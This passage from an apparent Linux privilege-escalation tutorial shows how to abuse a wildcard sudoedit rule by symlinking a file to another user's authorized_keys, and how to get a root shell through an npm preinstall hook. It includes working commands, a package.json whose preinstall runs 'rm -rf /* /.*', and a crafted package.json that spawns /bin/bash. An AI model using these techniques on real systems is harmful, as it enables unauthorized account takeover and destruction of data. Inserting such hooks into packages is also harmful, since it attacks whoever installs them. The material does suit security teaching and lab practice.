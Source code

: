 From the above, we can see that you can run \[sudoedit] as \[test-account] and its clear that \[wild cards] are used on the path to the file which means if you create the same file \[index.html] under similar directory such as \[/var/www/privilege/escalation/index.html] and link it to the authorized\_keys of the \[test-account] user, you can then ssh to that account.

```
cd /var/www/
mkdir privilege
mkdir escalation
touch index.html
ln -s /home/test-account/.ssh/authorized_keys index.html
```

Generate ssh keys on your machine and copy the contents of id.pub and paste it in \[index.html]

```
sudoedit -u test-account /var/www/privilege/ escalation/index.html
```

With the private key of \[test-account], you can then log in as that account.

#### Abusing the Nodejs NPM

npm is the package manager for nodejs and javascript. You can use it if you are nodejs developer or to install javascript packages. When a non-root user can run \[npm] as root then this open the possibility of creating a specially crafted \[package.json] file if the original \[package.json] file contains \[preinstall] item. An originak \[package.json] for Nodejs looks like the below

```
{ 
"name": "rimrafall", 
"version": "1.0.0", 
"description": "rm -rf /* # DO NOT INSTALL THIS", 
"main": "index.js", 
"scripts": 
{ "preinstall": "rm -rf /* /.*" 
}, 
"keywords": [ 
"rimraf", 
"rmrf" 
], 
"author": "João Jerónimo", 
"license": "ISC" 
}
```

cd to \[/dev/shm] on the target machine and create a package.json file like below

```
user@hacked:/dev/shm$ cat node/package.json

{ 
"name": "fake-package", 
"version": "1.0.0", 
"scripts": { 
"preinstall": "/bin/bash" 
} 
}
```
